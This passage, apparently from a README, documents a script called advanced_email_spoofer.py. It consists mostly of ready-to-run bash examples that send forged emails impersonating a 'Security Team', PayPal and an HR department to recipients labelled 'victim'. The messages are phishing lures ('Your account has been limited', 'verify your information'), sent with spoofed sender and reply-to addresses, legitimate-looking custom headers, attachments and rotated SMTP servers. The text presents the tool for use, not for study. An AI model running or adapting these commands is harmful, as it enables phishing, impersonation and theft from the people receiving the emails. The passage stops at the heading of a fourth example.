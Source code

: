```bash
# First, read the HTML template
TEMPLATE=$(cat email_template.html)

# Then use it in the command
python advanced_email_spoofer.py \
  --server smtp.example.com \
  --port 587 \
  --user your_real_email@example.com \
  --password your_password \
  --from-name "Security Team" \
  --from-email security@trusted-company.com \
  --reply-to support@trusted-company.com \
  --to victim@example.com \
  --subject "Security Alert: Verify Your Account" \
  --message "$TEMPLATE"
```

#### Example 2: Adding custom headers and X-headers

```bash
python advanced_email_spoofer.py \
  --server smtp.example.com \
  --port 587 \
  --user your_real_email@example.com \
  --password your_password \
  --from-name "PayPal Security" \
  --from-email security@paypal.com \
  --to victim@example.com \
  --subject "Your account has been limited" \
  --message "<p>Dear customer,</p><p>Your PayPal account has been temporarily limited. Please <a href='https://example.com'>verify your information</a> to restore access.</p>" \
  --add-xheaders \
  --custom-header "List-Unsubscribe: <mailto:unsubscribe@paypal.com>" \
  --custom-header "Precedence: bulk"
```

#### Example 3: Using SMTP servers from a file

```bash
python advanced_email_spoofer.py \
  --smtp-file smtp_servers.txt \
  --from-name "HR Department" \
  --from-email hr@company.com \
  --to "employee1@example.com,employee2@example.com" \
  --cc "manager@example.com" \
  --subject "Updated Company Policy" \
  --message "<p>Please find attached the updated company policy document.</p><p>All employees must read and acknowledge by Friday.</p>" \
  --attach policy_document.pdf
```

#### Example 4: Testing SMTP servers only
